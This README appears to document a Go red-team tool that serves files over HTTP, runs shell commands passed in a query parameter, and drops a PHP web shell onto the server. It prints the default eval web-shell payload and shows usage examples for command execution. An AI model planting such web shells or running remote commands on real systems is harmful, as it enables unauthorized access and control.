 # HTTP Server GO

This is a small tool written in Go that can quickly start HTTP file browsing services in the Red Team intranet environment, and can execute shell commands. It supports the following features:

- Serving files from a specified directory
- Ability to execute shell commands with a specified query parameter
- Customizable shell path and query parameter
- Customizable IP address and port
- Supports PHP, Java, and .NET shells (currently only supports dumping PHP shells)
- Option to run the server in the background without printing anything to the console
- Option to dump the shell and execute it on the server (currently only supports dumping PHP shells)

## Usage

```
httpserver [OPTIONS]
```

### Application Options

- `-h`, `--help`: Show help message and exit
- `-p PORT`, `--port PORT`: Customize the port to listen on (default: 8080)
- `-d DIR`, `--dir DIR`: Customize the directory to serve files from (default: current directory)
- `-s SHELL`, `--shell SHELL`: Customize the shell path (default: `/?shell=`)
- `-cs CODE`, `--code-shell CODE`: Customize the query parameter for executing shell commands (default: `/?code=`)
- `-m MOD`, `--mod MOD`: Customize the shell mode (php/java/.net) (currently only supports dumping PHP shells)
- `--payload PAYLOAD`: Customize the shell content (default for PHP: `<?php eval($_POST['a']);`, default for Java: empty string)
- `--silent`: Run the server in the background without printing anything to the console
- `-dump`, `--dumpshell`: Dump the shell and execute it on the server (currently only supports dumping PHP shells)

### Help Options

- `-h`, `--help`: Show help message and exit

## Example Usage

To start the server with default settings:

```
httpserver
```

To start the server on port 8888:

```
httpserver -p 8888
```

To start the server and serve files from the `public` directory:

```
httpserver -d public
```

To start the server and use the query parameter `/?cmd=` to execute shell commands:

```
httpserver -cs cmd
```

To start the server and use the PHP shell with custom code:

```
httpserver -m php --payload '<?php echo "Hello, world!"; ?>' 
```

To dump the PHP shell and execute it on the server:

```
httpserver -dump -m php -cs cmd
```